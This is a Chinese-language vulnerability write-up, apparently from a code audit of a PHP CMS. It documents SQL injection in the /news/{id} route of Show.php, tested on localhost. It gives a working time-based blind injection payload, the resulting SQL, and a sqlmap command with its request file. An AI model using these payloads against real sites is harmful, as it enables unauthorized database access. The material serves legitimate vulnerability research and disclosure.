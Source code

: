 通过数据库监控发现两类关于 关键词 `150` 的 sql 语句：

```sql
SELECT * FROM `sy_article` WHERE `id` = '150' LIMIT 1
SELECT `id`,`title` FROM `sy_article` WHERE ( id < 150 and nid=2 and cid=18 ) ORDER BY `id` DESC LIMIT 1
```

差不多对应 Show.php 里 index() 方法中的两条语句：

```php
$one  = db('article')->where('id',$id)->find();
$data["leftlist"] = db('article')->field('id,title')->where('nid',$one['nid'])->order("sort,id")->select();	
```

#### 手动测试

1、

```
' and '1'='1
```

```http
http://127.0.0.1:8002/news/150'%20and%20'1'='1
```

显示报错，查看执行的 sql 语句：

```sql
SELECT * FROM `sy_article` WHERE `id` = '150\' and \'1\'=\'1' LIMIT 1
```

明白了，转义了 `'`

2、

```
) and if(1<2,sleep(2),sleep(0)) and (1=1
```

```http
http://127.0.0.1:8002/news/150)%20and%20if(1%3C2,sleep(2),sleep(0))%20and%20(1=1
```

成功延时，并且监控得到执行的 sql 如下：

```sql
SELECT `id`,`title` FROM `sy_article` WHERE ( id > 150) and if(1<2,sleep(2),sleep(0)) and (1=1 and nid= 2 and cid = 18 ) ORDER BY `id` ASC LIMIT 1
```

#### SQLMAP测试

```bash
python sqlmap.py -r sql.txt --batch
```

```http
GET /news/150* HTTP/1.1
Host: 127.0.0.1:8002
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
```